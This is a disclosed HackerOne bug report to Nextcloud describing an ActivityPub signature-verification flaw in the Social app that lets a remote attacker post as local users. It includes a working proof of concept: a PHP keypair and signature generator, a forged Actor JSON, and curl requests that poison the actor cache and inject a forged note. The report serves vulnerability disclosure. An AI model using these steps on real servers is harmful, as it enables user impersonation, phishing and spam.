 # Remote attacker can impersonate Social users via ActivityPub API

## Report Details
- **Report ID**: 461308
- **URL**: https://hackerone.com/reports/461308
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-12-12T15:31:47.965Z
- **Disclosed**: 2019-02-01T08:57:05.404Z

## Reporter
- **Username**: tomk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi there! First up I want to acknowledge that Social may not be in scope. I emailed security@nextcloud.com, which pointed me here, and I wasn't sure whether to just put it in a GitHub issue. In any case I hope I'm not wasting your time.

When an HTTP request arrives at the shared inbox endpoint there are problems in the Signature header checks. A remote unauthenticated attacker is able to partially impersonate users on the victim server. They can post messages on behalf of their victims, which will be visible in their own Home timelines and also in the Home timelines of any of their followers on the same server. Other actions are likely possible also, but this makes a clear example.

I have verified the issue on Social 0.1.0 with NextCloud 15.0.0.

* When an unknown remote Actor is downloaded using the keyId URL, the response's "id" field is not checked that it is from the same origin, which means it can be arbitrarily spoofed. This is the main problem.
* When a Signature header is verified, any public key will do provided it comes from the correct origin, i.e., the key belongs to an Actor whose id has an origin that is somehow authoritative for the ActivityPub Item. This is normally okay since all the private keys for a given origin are on the same server. However due to the previous point, an attacker can insert their own pubkey for anybody else's server.

This is most clearly explained with steps to reproduce. Here I want to attack the server https://███████ and post a message impersonating "testuser2".

First, I use a short PHP script `gen_request.php` that borrows some code from Social to generate a keypair, and give me a signature suitable for posting to the shared inbox.

    <?php

    // Use same key type and generation code as inside Nextcloud social
    $res = openssl_pkey_new(
            [
                    "digest_alg"       => "rsa",
                    "private_key_bits" => 2048,
                    "private_key_type" => OPENSSL_KEYTYPE_RSA,
            ]
    );

    openssl_pkey_export($res, $privateKey);
    $publicKey = openssl_pkey_get_details($res)['key'];

    // Generate a valid request
    $data = "(request-target): post /nextcloud/index.php/apps/social/inbox";

    openssl_sign($data, $signed, $privateKey, OPENSSL_ALGO_SHA256);
    echo "Shared inbox request, signed\n";
    echo base64_encode($signed);
    echo "\n\n";
    echo "Public key\n";
    echo $publicKey;

    ?>

Running this provides some material to use in the following requests.

    Shared inbox request, signed
    YHb7DroSsXgIFGuRFC5tRksVp1tayq+ZMeBP3vG6uNz8lStIjRhtCwzASStyRSrcm4DTlzuQzejQgQxJwq62bsPvzXzUGFub2yap3nyNFxtRbs/xTlpf1ySlhGDeMx1A9XjnEkp/j+wnCQF9j5h7SdnXG/1WSJe8SIBki+ONPwWqkyWRA1V/c76gJp349JnfVg0HkFuFGpIIe2A7Qk+Mbcq66aKx1WJedsL1SkeU3kSqSQIhYR4AvhXIHmj7E6Syg4o2/zHF0BaxbPHqS2VDSPajmE+gL+nhk/UTbOSUB6wzJkWng8ibWQ9Tz4UvYG/xUW8gdDtvU51x3nMfNmmXIQ==

    Public key
    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmgjLAFCTvqwOCP1IW9Ik
    peiTNBv49RC70dRXi4qpXLe+Sl2IR3O8YUiGzInRyyANM3nPWeHOH3bgF7WBmF5u
    SaUgCga050woQC+DJkkVsjjmtz41z3FZyxRQN+x/zkJjQ96O94yWfXpam/hrW3Q2
    WPHTEjKXyUfxIg0Ik0PcifvdZoCwQS+MbBDkKfToLw0vAhjKtE5zjT8VMwFj7yci
    FpDzaKFHn4NQAr4SuznZW98zRom7XfcuDL5psa28W7S2Te2WVtCfUrkvbByESmN2
    i3U5m0QjWUD34/IU03f+cyALKMNWesMl1mAj8NUfPgoGIa8ISlWYrjDzfGDjbbDc
    /QIDAQAB
    -----END PUBLIC KEY-----

Next I download testuser2's user profile as a template.

    $ curl -H "Accept: application/ld+json" -k https://████/nextcloud/index.php/apps/social/@testuser2

Edit it so that the `id` field is changed to `@mallory`, and the public key is replaced with the one we generated. The rest can stay the same. (Truncated example)

    {"@context":["https:\/\/www.w3.org\/ns\/activitystreams","https:\/\/w3id.org\/security\/v1"],
    "id":"https:\/\/█████\/nextcloud\/index.php\/apps\/social\/@mallory",
    "type":"Person",
    ...
    +cyALKMNWesMl1mAj8NUfPgoGIa8ISlWYrjDzfGDjbbDc\n/QIDAQAB\n-----END PUBLIC KEY-----\n"}}

I place this user JSON in a file on a web-accessible HTTPS server - in this case the URL is `https://███████/mallory.json`. I make the victim server download and process this user by using this URL as a keyId in a signature. The actual signature text and request body does not matter at this point. Verification will fail, but the user will be saved into the table "oc_social_cache_actors" with the "id" set to `https://████/nextcloud/index.php/apps/social/@mallory`. This makes it trusted for requests that concern origin ████.

    $ curl -H 'Signature: keyId="https://██████/mallory.json",headers="(request-target)",signature="x"' -H "Accept: application/ld+json" -X POST -d "" -k -i https://██████/nextcloud/index.php/apps/social/inbox
    HTTP/1.1 500 Internal Server Error
    ...
    {"status":-1,"exception":"OCA\\Social\\Exceptions\\SignatureException","message":"signature cannot be checked"}

Now that mallory's pubkey is trusted, I can submit a Create-Note payload to the shared inbox. The signature for this request URL was already pre-calculated by the PHP script earlier.

For example,

    $ curl -H 'Signature: keyId="https://███/nextcloud/index.php/apps/social/@mallory",headers="(request-target)",signature="YHb7DroSsXgIFGuRFC5tRksVp1tayq+ZMeBP3vG6uNz8lStIjRhtCwzASStyRSrcm4DTlzuQzejQgQxJwq62bsPvzXzUGFub2yap3nyNFxtRbs/xTlpf1ySlhGDeMx1A9XjnEkp/j+wnCQF9j5h7SdnXG/1WSJe8SIBki+ONPwWqkyWRA1V/c76gJp349JnfVg0HkFuFGpIIe2A7Qk+Mbcq66aKx1WJedsL1SkeU3kSqSQIhYR4AvhXIHmj7E6Syg4o2/zHF0BaxbPHqS2VDSPajmE+gL+nhk/UTbOSUB6wzJkWng8ibWQ9Tz4UvYG/xUW8gdDtvU51x3nMfNmmXIQ=="' \
    -H "Accept: application/ld+json" \
    -X POST \
    -d "{\"type\":\"Create\",\"actor\":\"https://█████/nextcloud/index.php/apps/social/@testuser2\",\"to\":[\"https://www.w3.org/ns/activitystreams#Public\"],\"object\":{\"publishedTime\":1544622784,\"@context\":[\"https://www.w3.org/ns/activitystreams\",\"https://w3id.org/security/v1\"],\"id\":\"https://██████████/nextcloud/index.php/apps/social/@testuser2/15446114504147655329\",\"type\":\"Note\",\"to\":\"https://www.w3.org/ns/activitystreams#Public\",\"cc\":[\"https://████████/nextcloud/index.php/apps/social/@testuser2/followers\"],\"actor\":\"https://████/nextcloud/index.php/apps/social/@testuser2\",\"actor_info\":{\"@context\":[\"https://www.w3.org/ns/activitystreams\",\"https://w3id.org/security/v1\"],\"id\":\"https://███████/nextcloud/index.php/apps/social/@testuser2\",\"type\":\"Person\",\"url\":\"https://██████████/nextcloud/index.php/apps/social/@testuser2\",\"local\":true,\"aliases\":[\"@testuser2\",\"users/testuser2\"],\"preferredUsername\":\"testuser2\",\"name\":\"\",\"inbox\":\"https://███/nextcloud/index.php/apps/social/@testuser2/inbox\",\"outbox\":\"https://███/nextcloud/index.php/apps/social/@testuser2/outbox\",\"account\":\"testuser2@█████\",\"following\":\"https://███████/nextcloud/index.php/apps/social/@testuser2/following\",\"followers\":\"https://█████/nextcloud/index.php/apps/social/@testuser2/followers\",\"endpoints\":{\"sharedInbox\":\"https://█████/nextcloud/index.php/apps/social/inbox\"},\"publicKey\":{\"id\":\"https://████████/nextcloud/index.php/apps/social/@testuser2#main-key\",\"owner\":\"https://████████/nextcloud/index.php/apps/social/@testuser2\",\"publicKeyPem\":\"\"}},\"published\":\"2018-12-12T14:44:10+00:00\",\"local\":true,\"content\":\"not really testuser2\",\"attributedTo\":\"https://██████████/nextcloud/index.php/apps/social/@testuser2\",\"inReplyTo\":\"\",\"sensitive\":false,\"conversation\":\"\"}}" \
    -k -i \
    https://████/nextcloud/index.php/apps/social/inbox

Now the payload "not really testuser2" appears in the Home timeline of their followers, like the admin user in the attached screenshot.

## Impact

* Phishing or malware links via seemingly trustworthy local or remote users
* Spam/DoS
* Possibly deleting content (untested)

## Attachments
- admin_home.png
